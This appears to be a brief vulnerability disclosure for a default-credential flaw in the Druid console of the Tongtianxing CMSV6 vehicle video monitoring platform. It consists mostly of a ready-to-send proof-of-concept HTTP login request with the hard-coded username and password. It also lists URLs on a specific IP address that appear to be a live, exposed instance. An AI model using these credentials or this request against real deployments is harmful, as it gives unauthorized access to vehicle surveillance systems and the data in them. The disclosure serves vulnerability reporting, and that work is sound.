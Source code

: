 Dongguan Tongtianxing Software Technology Co., Ltd.'s Vehicle Management System has a default password vulnerability that may affect the system

There is a default password vulnerability in the Druid of the Tongtianxing CMSV6 in car video monitoring platform

developer：http://www.g-sky.cn/





![image-20240327161651680](https://oss.wencha.cfd/img/20240327161653.png)

POC：

```http
  POST /druid/submitLogin HTTP/1.1
  Host: {{Hostname}}
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
  Accept: text/plain, */*; q=0.01
  Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
  Accept-Encoding: gzip, deflate
  Content-Type: application/x-www-form-urlencoded; charset=UTF-8
  X-Requested-With: XMLHttpRequest
  Content-Length: 42
  Connection: close
  Cookie: JSESSIONID=4F7D8A071EAC19E6196D1775D84D2F8D

  loginUsername=ttx&loginPassword=ttx123456.
```



Referer：

http://15.204.209.106/808gps/login.html

![image-20240327160402075](https://oss.wencha.cfd/img/20240327160403.png)

http://15.204.209.106/druid/login.html



use：loginUsername=ttx&loginPassword=ttx123456.

![image-20240327160626906](https://oss.wencha.cfd/img/20240327162236.png)

